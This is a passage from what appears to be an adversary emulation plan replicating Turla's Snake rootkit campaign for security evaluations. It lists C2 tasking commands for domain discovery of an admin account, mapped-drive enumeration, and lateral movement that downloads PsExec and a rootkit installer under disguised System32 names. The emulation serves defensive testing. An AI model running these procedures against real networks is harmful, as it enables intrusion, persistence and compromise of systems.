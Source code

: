 * Wait 1 minute then execute the next discovery command to enumerate `EgleAdmin`'s groups:
```bash
# Enumerate details on EgleAdmin to find group membership
./evalsC2client.py --set-task 534b40585d514b554844 '{"type": 3, "proc": "net.exe", "args": "user /domain EgleAdmin"}'
```
:heavy_exclamation_mark: Verify that `File Server Admins` is listed as one of the groups that `EgleAdmin` is a member of.

* Wait 1 minute then execute the next discovery command to the drive mapped to the file server:
```bash
# Discover that the local machine has a drive mapped to the file server
./evalsC2client.py --set-task 534b40585d514b554844 '{"type": 3, "proc": "net.exe", "args": "use", "runas": "nk\\Egle"}'
```
:heavy_exclamation_mark: Verify that the home drive is mapped to the file server host `berzas` (`10.100.30.204`).

### :moyai: Source Code

* [Snake Usermodule DLL](UserModule_README.md)
  * [Task download](comms_http.cpp#L237)
  * [Task execution with optional token impersonation](execute.cpp#L406)
  * [Token duplication](execute_token.cpp#L284)

### :microscope: Cited Intelligence
* <https://artemonsecurity.com/snake_whitepaper.pdf>

## Step 14 - Lateral Movement to File Server

:microphone: `Voice Track:`

Step 14 emulates Turla using the discovered admin account to laterally move to the file server and install the Snake rootkit on it.

Using the information discovered in the previous step, Snake impersonates the EgleAdmin account to run PsExec and execute another copy of the Snake rootkit installer on the file server. This new copy of the Snake installer will have the installed rootkit beacon back to the C2 server via a different redirector.

---

### :biohazard: Procedures

* Tasking the implant to download PsExec.
```bash
./evalsC2client.py --set-task 534b40585d514b554844 '{"type": 4, "file": "PsExec.exe", "dest":"C:\\Windows\\System32\\file_svc_mgr.exe"}'
```

* Wait 1 minute and then run the following command to download the snake installer:
```bash
./evalsC2client.py --set-task 534b40585d514b554844 '{"type": 4, "file": "installer_v2.exe", "dest":"C:\\Windows\\System32\\cmu_svc_v2.exe"}'
```
